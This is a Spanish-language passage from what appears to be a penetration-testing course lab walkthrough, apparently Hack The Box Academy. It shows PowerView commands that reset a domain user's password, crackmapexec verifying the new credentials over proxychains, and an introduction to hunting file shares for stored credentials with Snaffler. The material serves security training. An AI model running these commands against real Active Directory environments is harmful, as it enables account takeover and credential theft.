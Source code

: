 A continuación, escribe `powershell` para entrar en una consola PowerShell, y podemos usar `PowerView` para cambiar la contraseña del usuario `ssmalls` de la siguiente manera:

```r
PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1

PS C:\DotNetNuke\Portals\0> Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Str0ngpass86!' -AsPlainText -Force ) -Verbose

VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'ssmalls'
VERBOSE: [Set-DomainUserPassword] Password for user 'ssmalls' successfully reset
```

Podemos volver a nuestro host de ataque y confirmar que la contraseña se cambió exitosamente. Generalmente, querríamos evitar este tipo de actividad durante una prueba de penetración, pero si es nuestro único camino, debemos confirmar con nuestro cliente. La mayoría nos pedirá que procedamos para ver hasta dónde podemos llegar, pero siempre es mejor preguntar. Por supuesto, queremos anotar cualquier cambio como este en nuestro registro de actividades para incluirlos en un anexo de nuestro informe.

```r
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86!

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86!
```

---

# Share Hunting

Explorando el host y AD un poco más, no vemos nada útil. BloodHound no muestra nada interesante para el usuario `ssmalls`. Volviendo al contenido del `Penetration Tester Path`, recordamos que las secciones [Credentialed Enumeration from Windows](https://academy.hackthebox.com/module/143/section/1421) y [Credentialed Enumeration from Linux](https://academy.hackthebox.com/module/143/section/1269) cubrieron la búsqueda de shares de archivos con Snaffler y CrackMapExec respectivamente. Ha habido muchas veces en pruebas de penetración donde he tenido que recurrir a revisar shares de archivos para encontrar una pieza de información, como una contraseña para una cuenta de servicio o similar. A menudo he podido acceder a shares departamentales (como IT) con credenciales de bajo privilegio debido a permisos NTFS débiles. A veces, incluso puedo acceder a shares para algunos o todos los usuarios en la empresa objetivo debido al mismo problema. Con frecuencia, los usuarios no son conscientes de que su unidad de inicio es un share de red mapeado y no una carpeta local en su computadora, por lo que pueden guardar todo tipo de datos sensibles allí. Los permisos de los shares de archivos son muy difíciles de mantener, especialmente en organizaciones grandes. Me he encontrado revisando shares de archivos a menudo durante pruebas de penetración cuando estoy atascado. Puedo pensar en una prueba específica donde tenía credenciales de usuario pero estaba atascado y me dediqué a revisar shares. Después de un tiempo, encontré un archivo `web.config` que contenía credenciales válidas para una cuenta de servicio MSSQL. Esto me dio derechos de administrador local en un servidor SQL donde un administrador del dominio había iniciado sesión, y fue un éxito total. Otras veces he encontrado archivos con contraseñas en unidades de usuario que me han ayudado a avanzar. Dependiendo de la organización y cómo están configurados sus permisos de archivo, puede haber mucho que revisar y toneladas de "ruido". Una herramienta como Snaffler puede ayudarnos a navegar por eso y centrarnos en los archivos y scripts más importantes. Vamos a intentarlo aquí.
